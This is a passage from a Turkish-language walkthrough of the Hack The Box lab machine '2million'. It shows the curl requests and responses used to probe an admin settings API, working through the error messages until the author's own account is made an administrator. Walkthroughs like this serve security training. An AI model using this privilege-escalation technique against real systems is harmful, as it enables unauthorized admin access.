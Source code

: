 Öncelikle, bu uç noktaya gönderilecek veriyi belirlemek için bir deneme isteği yapıyoruz:

```bash
┌──(root㉿kali)-[~]
└─# curl -s -X PUT 'http://2million.htb/api/v1/admin/settings/update' -H 'Cookie: PHPSESSID=g6f3obgpgmn1u22q7sqrbelbqd' | jq
{
  "status": "danger",
  "message": "Invalid content type."
}
```

Herhangi bir yetkilendirme hatası almıyoruz ancak *Invalid content type* hatası veriyor. Content Type Başlığı ekleyerek devam edelim. (*Genel olarak json formatında çalıştığımız için ilk olarak `application/json` deniyoruz.*)

```bash
┌──(root㉿kali)-[~]
└─# curl -s -X PUT 'http://2million.htb/api/v1/admin/settings/update' -H 'Cookie: PHPSESSID=g6f3obgpgmn1u22q7sqrbelbqd' -H 'Content-Type: application/json' | jq
{
  "status": "danger",
  "message": "Missing parameter: email"
}
```

Ve görüldüğü gibi az önceki hatayı atlatmayı başardık şimdi de **email** parametresinin eksik olduğunu söylüyor onu da verelim.

```bash
┌──(root㉿kali)-[~]
└─# curl -s -X PUT 'http://2million.htb/api/v1/admin/settings/update' -H 'Cookie: PHPSESSID=g6f3obgpgmn1u22q7sqrbelbqd' -H 'Content-Type: application/json' -d '{"email":"test@gmail.com"}'| jq
{
  "status": "danger",
  "message": "Missing parameter: is_admin"
}
```

Bu adımı da geçmeyi başardık şimdide **is_admin** değerini istiyor onu da **true** olarak verip deneyelim.

```bash
{
  "status": "danger",
  "message": "Variable is_admin needs to be either 0 or 1."
}
```

True olarak yazdığım zaman 0 yada 1 olması gerektiğini söylüyor 1 olarak veriyorum.

```bash
┌──(root㉿kali)-[~]
└─# curl -s -X PUT 'http://2million.htb/api/v1/admin/settings/update' -H 'Cookie: PHPSESSID=g6f3obgpgmn1u22q7sqrbelbqd' -H 'Content-Type: application/json' -d '{"email":"test@gmail.com", "is_admin":1}'| jq     
{
  "id": 17,
  "username": "hacker",
  "is_admin": 1
}
```
